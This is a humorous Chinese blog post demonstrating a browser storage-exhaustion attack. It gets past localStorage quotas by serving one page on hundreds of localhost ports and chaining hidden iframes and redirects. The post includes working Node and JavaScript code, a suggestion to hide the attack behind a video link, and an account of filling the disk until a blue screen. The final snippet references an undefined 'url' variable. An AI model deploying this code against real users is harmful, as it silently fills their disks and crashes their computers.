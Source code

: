 ```yaml
---
layout: post
title: "作为一个前端，可以如何机智地弄坏一台电脑？"
date: 2015-07-06 22:30
comments: true
reward: true
tags: 
	- 安全 
	- js
	- 黑科技
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。


### 起因

故事得从localStorage说起。

html5的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows下的chrome，localStorage存储于``C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage``文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC侧的上限是5M-10M之间，移动侧是则不大于2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个``域名+端口``。
也就是说，你访问``同一个域名的不同端口``，它们的localStorage并无关联，是分开存储的。

我用node简单地开启了服务器，这时，用户访问``http://127.0.0.1:1000``到``http://127.0.0.1:1099``这100个端口，会请求到同一个页面：``index.html``：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个index.html里涉及了localStorage写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何``让用户自动遍历这些端口``？

iframe是个好的尝试。
只要一打开``http://127.0.0.1: 1000``，页面的脚步就会创建一个iframe，去请求``http://127.0.0.1: 1001``，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然iframe我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的C盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到1081端口，最新的chrome就崩溃掉了…原来iframe嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C盘还未撑满，同志还需努力。怎么办？

突然想到，到达iframe极限之前，我们可以重定向啊。
每访问50个端口，就使用``window.location.href``重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问``http://127.0.0.1: 1000``，就会往Local Storage文件夹里写入近500M无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)


### 继续实验的黑科技

算了下我的C盘还有空间嘛，那就把端口数量从100增长到200个。
结果是这样的，到达了1.17G大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行``localStorage.setItem()``后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被chrome先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：
1. 等待；
2. 用任务管理器关掉chrome进程，再等待；
3. 相信并尝试“重启电脑解决90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将``安全问题上交给国家的初衷``去做的（是的就是这么纯粹）。

后续，看着C盘还有2G空间，我又把端口增长到2000个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…


